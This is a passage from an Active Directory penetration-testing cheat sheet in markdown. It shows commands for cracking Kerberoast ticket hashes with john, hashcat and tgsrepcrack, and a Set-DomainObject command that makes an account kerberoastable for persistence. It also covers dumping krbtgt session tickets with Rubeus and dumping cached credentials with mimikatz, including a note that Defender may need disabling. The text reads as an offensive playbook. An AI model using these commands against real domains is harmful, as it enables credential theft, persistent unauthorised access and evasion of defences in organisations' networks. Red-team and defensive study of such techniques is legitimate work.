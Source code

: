 ```bash
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast

hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

### Kerberoasting Persistence

If you have enough permissions over a user you can make it kerberoastable:

```ps
 Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```

Tool for kerberoast
https://github.com/nidem/kerberoast

### Issues kerberoasting 

If you find this error from Linux: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) it because of your local time, you need to synchronise the host with the DC: 

```bash
ntpdate <IP of DC>
```

## Local Priv Esc

Use a guide like the one here or on [Hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) and use something like [Hacktricks-Windows-privesc Checklist](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)

## Current Session Tickets

It's very unlikely that you will find tickets in the current user giving you permission to access unexpected resources, but you could check:

```
## List all tickets (if not admin, only current user tickets)
.\Rubeus.exe triage
## Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```

## Cached Creds

If you are already administrator on a domain connected machine you can dump local hashes and try and crack them, or pivot with pass or overpass the hash.

This can be done with **fgdump** on older machines and **mimikatz** on most new machines. (Note may have to turn defender off)

#### Mimi cheatsheat
